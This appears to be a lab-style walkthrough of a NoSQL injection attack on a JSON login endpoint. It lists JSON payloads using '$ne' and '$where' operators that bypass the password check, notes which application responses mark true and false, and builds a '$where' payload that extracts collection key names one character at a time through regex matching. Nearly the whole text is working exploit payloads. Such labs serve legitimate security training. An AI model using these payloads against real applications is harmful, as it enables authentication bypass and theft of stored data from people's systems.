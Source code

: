The following request contains a NoSQL injection vulnerability:

```bash
POST /login HTTP/2
Content-Type: application/json

 {
 	"username":"test",
 	"password":"test"
 }
```

Inject different payloads into the application request to see how the responses change. Application response - account locked: please reset your password:

```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  }
}
```

Application response - invalid username or password:

```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  },
  "$where": "0"
}
```

Application response - account locked: please reset your password:

```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  },
  "$where": "1"
}
```

We now have a way to determine whether the results of a query are TRUE or FALSE:

- FALSE - Invalid username or password
- TRUE - Account locked: please reset your password

Use the following payload to extract the names of the Keys in the NoSQL collection. The part "(this)[1]" targets the first Key that is listed in the targeted Object:

```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  },
  "$where": "Object.keys(this)[1].match('^.{0}u.*')"
}
```
